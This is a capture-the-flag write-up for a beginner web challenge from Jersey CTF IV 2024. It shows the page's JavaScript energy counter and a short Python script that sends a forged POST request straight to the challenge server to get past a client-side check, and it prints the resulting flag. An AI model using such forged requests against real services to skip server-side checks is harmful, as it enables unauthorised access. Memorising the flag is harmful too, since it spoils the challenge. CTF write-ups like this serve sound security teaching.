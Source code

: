 ```yaml
---
layout: writeup
category: Jersey-CTF-IV-2024
chall_description:
points: 50
solves: -1
tags: web post
date: 2024-3-25
comments: false
---
```


Help Goku get over 9000 energy to defeat his enemy Vegeta and save the world.  

3.23.56.243:9005  

---

Visit the site. Head to Chrome Dev Tools --> Sources. Here's the .js file controlling it all:  

```js

let currentEnergy = 0;

function gatheringEnergy(){
    currentEnergy++;
    $("#energycount").html(`${currentEnergy}`);
    if(currentEnergy == 10)
    {
        alert("out of energy try again :(")
        currentEnergy = 0;
        $("#energycount").html(0);
        
    }
    else if (currentEnergy > 9000)
    {
        
        $.ajax({
            type:"POST",
            url:"kamehameha.php",
            data:{energy: currentEnergy},
            success: function(flag){
                alert(`${flag}`);
            },
            error: function(responseText,status, error){
                console.log(`Tell the infrastructure team to fix this: Status = ${status} ; Error = ${error}`);
            }


        })
        
    }
}

```

So it's impossible to actually get to over 9000. However, we can just send a POST request ourselves to kamehameha.php! Here's a script that does just that:  

```py
from requests import post

d = dict()
d["energy"] = 9001
res = post("http://3.23.56.243:9005/kamehameha.php", d).text
print(res)
```

And we get the flag!  

    texsaw{y0u_th0ught_th1s_w4s_4_fl4g_but_1t_w4s_m3_d10}